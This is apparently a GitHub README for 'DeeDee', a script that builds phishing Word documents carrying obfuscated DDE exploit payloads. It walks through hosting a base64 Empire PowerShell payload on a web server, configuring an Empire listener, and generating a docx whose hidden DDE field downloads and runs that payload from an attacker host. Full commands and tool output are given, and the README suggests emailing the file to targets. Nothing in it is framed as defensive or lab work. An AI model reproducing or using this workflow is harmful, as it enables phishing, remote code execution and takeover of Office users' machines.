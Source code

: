 <h2> DeeDee Office Payload Generator<h6>Baking Evil Cookies since 2017<br>Author: True Demon</h2>

##Introduction##

DeeDee is a script for quickly generating DDE Exploit payloads and inserting them into ready-made documents for
phishing attempts against MS office users. The purpose of the script is to simplify and reduce the steps necessary to insert a
malicious DDE payload into supported versions of Office documents. It accomplishes this by inserting the payload in raw XML 
into the document themselves complete with known obfuscation methods to ensure a successful delivery and execution. This is
accomplished by inserting a reliable download script in powershell into the DDE payload, which calls out to the attacker's web
server hosting their desired payload. Currently, Empire payloads have had the best success.

##Procedure##

Start by creating a powershell payload that you would like to run on the remote host. If you use base64 encoding, this must be
specified in the script later. Base64 encoding is definitely recommended for successful execution. Save the payload to a txt
file in a temporary directory and start up a web server. The Python Simple HTTP server is sufficient, but any web server will do.

EX:
<pre>
cd /tmp/payloads
python3 http.server [port]
cp /tmp/empirepayload.txt /tmp/payloads/evil.txt
[*] Now you can then run deedee.py to create your malicious docx file.
</pre>

<br/>
<b>`use -i for your input file [default = template/blank.docx]`</b>

<pre>
<b>NOTE</b>: You must use the "blank.docx" file in /path/to/deedee/templates/ to start with. <br/>
You can edit any part of this document
before or after you have run deedee, provided that you DO NOT MODIFY THE FOOTER. 
It is recommended you edit it beforehand and save it to the templates folder so that you use it again later
</pre>

<b>`use -o to specify where you would like your output to go`</b>
<pre>
deedee@thekitchen:/# ./deedee.py -i templates/myphishing.docx -o /tmp/payloads/evilcookies.docx
</pre>
Enter the path to your http server & empirepayload: 
> http://my-ip-addr/evil.txt

Granny DeeDee bakes up some magic cookies for your enjoyment...
and you can email the evilcookies.docx to share with your friends :)
</pre>

##Supported Techniques##

    - Raw Powershell Payload insertion
    - Empire Web Delivery Method


##Planned Additions##

    - Empire & Metasploit specific payloads
    - QUOTE-SET-REF method obfuscation
    - Mimikatz dump payload
    - Invoke-MetasploitPayload method
    - Self-starting payload delivery web server


##Instructions##

###USAGE###
<pre>
deedee@thekitchen:/# ./deedee.py -h
usage: deedee.py [-h] [-i INPUT_FILE] [-o OUTPUT_FILE] [-c] [-v] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  -i INPUT_FILE, --input_file INPUT_FILE
                        Payload carrier file
  -o OUTPUT_FILE, --output_file OUTPUT_FILE
                        File with payload attached
  -c, --custom_payload  Override the default web delivery method with a custom
                        CMD/PSH payload as a string
  -v, --verbose         Show verbose output
  --debug               Print debug statements
</pre>
###Full Example###

##### START YOUR WEB SERVER #####
<pre>
deedee@thekitchen:/# cd /tmp/payloads
deedee@thekitchen:/# python3 -m http.server 8443         // Remember whatever port number you use here...
</pre>
##### CREATE YOUR EMPIRE PAYLOAD #####
<pre>
deedee@thekitchen:/# /usr/share/empire/./empire
> listeners
> uselistener http
> set Port 443
> set Host 192.168.1.123
> execute
> launcher powershell
</pre>

<em>COPY THE ENCODED PAYLOAD AND SAVE IT TO YOUR WEB SERVER DIRECTORY (Ignore "powershell -nop -sta -w 1 -enc")</em>
<pre>
deedee@thekitchen:/# echo "MASSIVEEMPIREPAYLOADINBASE64HERE" > /tmp/payloads/evil.txt
</pre>

Now you're ready to create your phishing document...
<pre>
deedee@thekitchen:/# ./deedee.py -i ~/PhishingTemplates/inconspicuous.docx -o /tmp/payloads/evilscheme.docx

[!] Let's bake some evil cookies!

[*] First, we'll be needing some ingredients!
|	 First, mix up the powershell payload you want executed on the host with your favorite framework,
|	 save it as a text file, and host it on a local web server. Now I just need to know where to find it.
|	 URI to payload...
|	 (ex: http://evilserv.ninja/blabbity.txt)
|		 #>:http://192.168.1.123:8443/evil.txt                  // This is the full path to your web server with your empire payload
|	 Will you be using an encoded payload? [y/N] #>: N
[?] Would you like to leave a special note on the error message for your friend? [default: "for security reasons"]
[+] Grabbing my bag of magic XML...:                            // Loading the payload
[+] Checking for my recipe...                                   // Making sure you used blank.docx as your template
[+] Ah, here it is!                                             // Your document is compatible!
[+] Tossing three cups of evil into the XML...                  // Generating your payload with your web server address
[+] Added a teaspoon of powershell...                           // Setting up the powershell payload
[+] ...Some malicious intent, and a few naughty thoughts ;)     // Obfuscating the payload
[+] Mixing XML into the DOCX...                                 // Creating the XML files and rebuilding your docx
[+] The cookies are in the oven...                              // Ensures the docx is not corrupted
[+] DING! The evil cookies are done!                            // SUCCESS! :)
</pre>

## Acknowledgements ##
<pre>
Michael Benich @benichmt1 - Provided a lot of additional research material necessary to create this exploit
<a href=https://sensepost.com/blog/2017/macro-less-code-exec-in-msword>Etienne Stalmans & Saif El-Sherei </a>- For their amazing, combined research efforts into DDE exploitation and obfuscation
Mike Czumak @SecuritySift - For his payload obfuscation methods & research
<a href=https://pwndizzle.blogspot.com/2017/03/office-document-macros-ole-actions-dde.html>PwnDizzle</a>                 - For his/her research provided on his blog
<a href=http://github.com/xillwillx>Vincent Yiu @vysecurity </a>  - For code concepts derived from his CactusTorch project
<a href=http://github.com/0xdeadbeefJERKY>0xdeadbeefJERKY</a>           - For code concepts derived from his Office-DDE-Payloads project
</pre>